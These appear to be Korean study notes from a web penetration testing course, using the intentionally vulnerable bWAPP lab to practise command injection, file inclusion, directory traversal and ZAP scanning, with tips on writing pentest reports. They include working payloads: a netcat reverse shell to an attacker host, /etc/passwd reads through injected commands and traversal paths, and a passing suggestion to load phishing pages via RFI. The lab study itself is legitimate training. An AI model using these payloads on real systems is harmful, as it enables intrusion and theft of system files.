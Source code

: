 ## OS Command Injection
* http://192.168.113.130/bWAPP/commandi.php
* OS Command: 시스템의 명령어를 사용해서 어떤 서비스를 제공하는 것
* 위 경우 클라이언트 pc에서 nslookup을 해서 정보를 가져다 줌   
* 리눅스에서 세미콜론으로 명령어를 두개를 칠 수 있음
` www.nsa.gov;ls -al;ps -ef `
* 공격자 kali ` nc -lvp 4444 `
* 피해자 beebug `www.nsa.gov; nc 192.168.113.128  4444 -e /bin/sh`
* ` www.nsa.gov;cat /etc/passwd `

## beebug OS Command Injection 코드
`cd /var/www/bWAPP`   
` vim commandi.php `
![alt text](image.png)
    * `shell_exec()` 부분을 보니깐 입력값 검증이 되지 않음

### Remote & Local File Inclusion (RFI/LFI) 취약점
local에 있는 파일을 include할 때 검증하지 않아서 발생하는 취약점
* http://192.168.113.130/bWAPP/rlfi.php
    * Directory Traversal 취약점과 유사
* ` include "/admin/db/php" `
    * 경로 부분이 static 하지 않음
* ` include "../../../etc.passwd" ` 이런식으로 다른 디렉토리 접근
* 웹쉘을 가져와서 실행할 수도 있다

#### RFI/LFI BEEBUG 실습
* http://192.168.113.130/bWAPP/rlfi.php?language=lang_en.php&action=go
    * language 파라미터에 파일 경로가 있음
* language 파라미터를 구글 페이지로 변경해보리기
    * http://192.168.113.130/bWAPP/rlfi.php?language=https://www.google.com&action=go
    * 구글 사이트나 나온다~
    * 피싱사이트를 넣으면 좋겠지?
* 중요 파일들 가져오기
    * http://192.168.113.130/bWAPP/rlfi.php?language=../../../../../../etc/passwd&action=go
    * http://192.168.113.130/bWAPP/rlfi.php?language=../../../../../../etc/profile&action=go
* vim /var/www/bWAPP/rlfi.php에서 확인

## Directory Traversal - Files
* 파일 취약점과 비슷
* ` ../../../../etc/passwd `를 해보자!
    * include 취약점인지 다운로드 취약점인지 구분 가능
    * http://192.168.113.130/bWAPP/directory_traversal_1.php?page=../../../../../etc/profile

## 수동 공격 & 능동 공격
* 수동 공격 (Passive Attack)
    * 페이지를 접근하는 과정에서 자동으로 수집되는 정보들
    * 페이지 내 중요한 버전 정보
    * 페이지 내 중요한 주석처리
* 능동 공격 (Active Attack)

## 자동화도구 zaproxy

` sudo apt install zaproxy ` 설치 (dirbuster의 UI 버전?)
* Attack 종류
    * Active Scan
    * AJAX Spider
    * Spider: 사이트에서 링크되어 있는 디렉터리/파일 구조, 인덱싱 판단 하기 위함
    * Forced Browsed Directory: 숨겨진 디렉터리, 백업 파일, 불필요한 파일을 찾기 위함
* Attack 세팅
    * POST Forms -> form을 발견하면 자동으로 글을 작성함
    * parse 'robot.txt' 크롤링 정보 해석

## Zaproxy 결과 분석

* Admin 페이지 발견 -> 별게 없다
* Directory Browsing -> 주로 index of 취약점
* 자유게시판 -> 게시글이 다 써있다
* 질문과답변(Q&A) 게시판은 로그인이 필요해서 게시글이 없음
* 파일 업로드 취약점 발견!
    * http://192.168.113.130/gm/editor_in.php
* 관리자페이지 indexof 취약점
    * http://192.168.113.130/gm/admin/auth_img

## Zaproxy Policy 설정

* information gathering
    * dir browzing
    * File inclusing
* Server sec

## ATTACK
* spider로 디렉토리 구조 확인하고
* Scan ATTACK 

## 모의해킹 보고서
* http://www.vulnweb.com
* 상호참조, 캡션
    * 표 1-4 -> 여러 개 있을 때 수정
    * 영향도 평가 기준 날리기
    * 환경구성 X
    * 계정정보 추측 및 대입
        * 인증우회, 파라미터 조작 순서 대로 맞추기
    * 취약점 대응방안에
        * 모의해킹 순서 대로 작성
    * 캡쳐한 페이지 글씨 크기가 문서 글자 크기랑 비슷해야 함
* 상세 수행 내역
    * 취약점이 많이 나오면 1000 페이지가 될 수도 있음
* full scan 돌리지 말자


8181 ASP + MS SQL 환경
8182
8183